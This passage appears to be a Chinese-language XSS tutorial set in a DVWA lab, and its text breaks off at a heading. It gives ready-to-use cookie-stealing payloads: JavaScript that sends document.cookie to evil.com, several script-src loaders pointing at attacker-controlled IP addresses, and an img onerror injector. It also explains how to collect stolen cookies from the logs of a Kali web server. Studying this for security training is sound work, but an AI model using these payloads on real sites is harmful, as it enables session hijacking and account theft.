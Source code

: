 ### xss 常见利用

xss 漏洞能够通过构造恶意的 xss 语句实现很多功能，其中最常用的时，**构造 xss 恶意代码获取对方浏览器的 cookie**

保存为 js

```
var img=document.createElement("img");
img.src="http://www.evil.com/log?"+escape(document.cookie);
document.body.appendChild(img);
```

再插入恶意 payload

```
<script src="http://192.168.0.127/xss.js"></script>
```

还可以直接插入恶意payload

```
javascript:eval(document.location="http://192.168.0.170/?cookie="+document.cookie);
```

当发现存在 xss 漏洞时，如果只是弹出信息窗口，这样只能证明存在一个 xss 漏洞，想再进一步深入的话，就必须学会加载 xss 攻击 payload。同时加载 payload 也要考虑到语句的长度，**语句是越短越好**，因为有的插入语句的长度会被限制

常见的加载攻击语句有

```
<script src="http://192.168.0.121/xss.js"></script> 
//单引号可以去掉
<script src=http://192.168.0.121/xss.js></script>
//可以变成
<scriptsrc=//192.168.0.121/xss.js></script>  //这种格式如果网站是 http 会自动加载 http，如果网站是https
会自动变成 https
```

在 kali 里面打开 sudo python -m SimpleHTTPServer 80 小型 web 服务，登陆 dvwa 后台输入 xss 代码，插入之后，受害者访问该网页就会把它的 cookie 发送到kali 的web 服务上。查看日志就能得到 cookie

**常见的标准 payload**

```
注意 网站采用的协议。
<script src="http://192.168.0.121/xss.js"></script>
<script src="https://192.168.0.121/xss.js"></script>
自动选择协议
<script src=//192.168.0.121/xss.js></script>
```

**图片创建加载连接**

```
<img src=''
onerror=document.body.appendChild(document.createElement('script')).src='//192.168.0.110/xss.
js'>
```

**字符并接**
